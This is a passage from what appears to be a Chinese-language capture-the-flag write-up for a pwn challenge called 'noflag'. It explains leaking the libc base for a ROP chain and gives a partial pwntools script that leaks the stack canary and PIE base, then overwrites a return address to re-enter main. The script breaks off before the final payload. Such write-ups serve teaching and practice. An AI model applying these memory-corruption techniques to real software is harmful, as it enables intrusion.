 ![noflag2.png](img/noflag2.png)

在第二次输入时，由于泄露出了 libc 基址，就可以通过 rop 为所欲为了 2333。这里 exp 是用的 one_gadget，因为事先已经通过 rop 泄露出的函数地址得到了远程的 libc 版本为 2.23(rop 代码就不给出了)。

```python
from pwn import *

p = process('./noflag')

p.recvuntil('length of name: \n')
p.sendline(str(0x29))

p.recvuntil('name: \n')
p.send('a'*0x29)

p.recvuntil('a'*0x28)
canary = u64(p.recvn(8)) / 0x100 * 0x100
pie = u64(p.recvuntil('l')[:-1].ljust(8, '\x00')) - 0xe10
print "canary: %#x" % canary
print "pie: %#x" % pie

main = pie + 0xd21

p.recvuntil('of introduction: \n')
p.sendline(str(0x40))

p.recvuntil('introduction: \n')
p.send('a'*0x28 + p64(canary) + p64(0xdeadbeef) + p64(main))

p.recvuntil('length of name: \n')
p.sendline(str(0xc0))

```